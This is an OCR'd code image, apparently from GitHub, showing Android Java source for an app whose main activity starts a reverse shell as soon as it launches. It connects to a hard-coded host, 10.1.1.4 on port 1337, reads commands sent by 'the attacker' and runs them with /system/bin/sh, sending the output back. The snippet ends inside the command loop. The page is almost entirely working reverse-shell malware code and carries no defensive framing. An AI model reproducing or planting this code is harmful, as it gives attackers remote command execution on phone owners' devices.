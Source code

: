 ```
public class MainActivity extends ActionBarActivity {

  PrintWriter out;
  BufferedReader in;

  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    getReverseShell(); //This works without netcat

  }

  private void getReverseShell() {

  //Running as a separate thread to reduce the load on main thread

    Thread thread = new Thread() {

      @Override
      public void run() {

      //declaring host and port

      String SERVERIP = "10.1.1.4";

      int PORT = 1337;

      try {

        InetAddress HOST = InetAddress.getByName(SERVERIP);

        Socket socket = new Socket(HOST, PORT);

        Log.d("TCP CONNECTION", String.format("Connecting to %s:%d (TCP)", HOST, PORT));

       //Don't connect using the following line - not required

   // socket.connect( new InetSocketAddress( HOST, PORT ), 3000 );

        while (true) {

       //Following line is to send command output to the attacker

          out = new PrintWriter(new BufferedWriter(new OutputStreamWriter(socket.getOutputStream())), true);

       //Following line is to receive commands from the attacker

          in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

       //Reading  string input using InputStreamReader object - These are the commands attacker sends via our remote shell

          String command = in.readLine();

          //input command will be executed using exec method

          Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});

```
